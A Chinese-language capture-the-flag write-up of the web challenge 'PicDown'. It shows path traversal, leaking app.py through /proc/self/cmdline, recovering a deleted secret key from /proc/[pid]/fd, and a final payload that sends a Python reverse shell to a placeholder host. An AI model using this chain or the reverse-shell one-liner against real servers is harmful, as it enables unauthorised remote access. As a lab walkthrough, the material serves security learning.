






# 网鼎杯白虎组web - PicDown


## 知识点

- 目录穿越
- 任意文件执行
- `/proc/self/cmdline`进程读取



`?url`是一个目录穿越，任意命令执行点

## 非预期解

直接读取根目录flag文件



## 预期解

先读取`proc/self/cmdline`



看到先执行了 `python2 app.py`文件

尝试读取一下app.py文件



```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

`/ no_one_know_the_manager` 能执行系统命令，但没有回显。程序读取完`SECRET_KEY`会删除/tmp/secret.txt,但在 linux 系统中如果一个程序打开了一个文件没有关闭，即便从外部（如os.remove(SECRET_FILE)）删除之后，在 /proc 这个进程的 pid 目录下的 fd 文件描述符目录下还是会有这个文件的 fd，通过这个我们即可得到被删除文件的内容。/proc/[pid]/fd 这个目录里包含了进程打开文件的情况；；pid就是进程记录的打开文件的序号；；
尝试爆破一下



payload:

````
?key=OIsVGHpGaZqOYe70jOqwtmkIw9EQQ/NIiI5IvcPD7wI=
&shell=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
````

拿到shell

